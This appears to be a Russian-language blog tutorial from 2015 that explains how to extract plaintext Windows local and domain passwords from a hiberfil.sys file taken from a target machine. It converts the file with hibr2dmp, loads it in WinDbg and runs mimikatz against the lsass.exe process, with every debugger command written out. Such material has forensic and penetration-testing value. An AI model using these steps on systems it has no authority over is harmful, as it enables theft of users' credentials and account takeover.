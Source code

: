 ```yaml
---
title: "Восстанавливаем локальные и доменные пароли из hiberfil.sys"
date: 2015-02-16
---
```


Утилита [mimikatz](http://blog.gentilkiwi.com/mimikatz), позволяющая извлекать учётные данные Windows из LSA в открытом виде, существует с 2012 года, однако помимо [хорошо освещённого](http://www.securitylab.ru/news/420431.php) функционала восстановления паролей из памяти работающей ОС у неё есть ещё одна довольно интересная возможность. Далее я приведу пошаговую инструкцию, как при помощи нехитрых действий извлечь учётные данные из файла hiberfil.sys.  
  


###  **Подготовка**

  
Для осуществления задуманного нам понадобятся следующие утилиты:  


  * [Debugging Tools for Windows](https://msdn.microsoft.com/en-us/library/windows/hardware/ff551063\(v=vs.85\).aspx)
  * [Windows Memory toolkit](http://www.moonsols.com/windows-memory-toolkit/) free edition
  * И, собственно, сам [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest)



###  **Действия**

  


1\. Получаем файл hiberfil.sys с целевой машины.

  


2\. Конвертируем файл в формат понятный WinDbg

  


**hibr2dmp.exe d:\temp\hiberfil.sys c:\temp\hiberfil.dmp**

**  
**

Процесс может занять довольно продолжительное время

  


[![](/images/1.jpg)](/images/1.jpg)

  


3\. Запускаем WinDbg и открываем полученный файл 

  


**File  -**> **Open Crash Dump**

  


4\. Настраиваем отладочные символы

  


Открываем **File  ****-** >** ****Symbol File Path… **и вписываем следующую строчку

  


**SRV*c:\symbols*http://msdl.microsoft.com/download/symbols**

**  
**

Вместо c:\symbols, естественно, может быть любой каталог, в который будут загружены символы 

  


[![](/images/2.png)](/images/2.png)

  


В командной строке дебаггера пишем

  


0: kd> **.reload /n**

**  
**

Ждём окончания загрузки символов

  


[![](/images/1.png)](/images/1.png)

  


5\. Указываем путь к библиотеке mimilib.dll (находится в каталоге с mimikatz)

  


0: kd> **.load z:\Soft\Security\Passwords\Mimikatz\x64\mimilib.dll**

**  
**

[![](/images/1.png)](/images/1.png)

  


6\. Находим адрес процесса lsass.exe

  


0: kd> **!process 0 0 lsass.exe**

**  
**

[![](/images/1.png)](/images/1.png)

  


В данном случае адрес: fffffa800a7d9060

  


7\. Переключаем контекст процесса

  


0: kd> **.process /r /p fffffa800a7d9060**

**  
**

[![](/images/1.png)](/images/1.png)

  


8\. Запускаем mimikatz и получаем пароли в открытом виде

  


0:kd>** !mimikatz**

**  
**

[![](/images/1.png)](/images/1.png)

**  
**

**  
**

**  
**

###  **Ссылки по теме**

**  
**

Раскрытие учетных данных в Microsoft Windows: **<http://www.securitylab.ru/vulnerability/420418.php>**

LSA Authentication: <https://msdn.microsoft.com/en-us/library/windows/desktop/aa378326(v=vs.85).aspx>  
What is Digest Authentication:**<https://technet.microsoft.com/en-us/library/cc778868(WS.10).aspx>**

  


**  
**

  


  

